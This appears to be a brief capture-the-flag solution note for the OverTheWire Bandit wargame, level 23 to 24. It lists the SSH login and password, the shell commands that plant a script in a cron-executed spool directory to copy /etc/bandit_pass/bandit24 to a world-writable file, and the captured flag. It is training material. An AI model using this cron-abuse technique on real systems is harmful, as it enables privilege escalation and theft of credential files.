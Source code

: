 login: ssh -p 2220 bandit23@bandit.labs.overthewire.org
pwd: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

```
mkdir /tmp/patryk2
cd /tmp/patryk2
ls /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
touch script.sh
echo "#!/bin/bash" > script.sh
echo "cat /etc/bandit_pass/bandit24 > /tmp/patryk2/pass.txt" >> script.sh
touch pass.txt
chmod 777 /tmp/patryk2
chmod 777 *
ls -la
cp script.sh /var/spool/bandit24/foo
cat pass.txt
```

flag: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar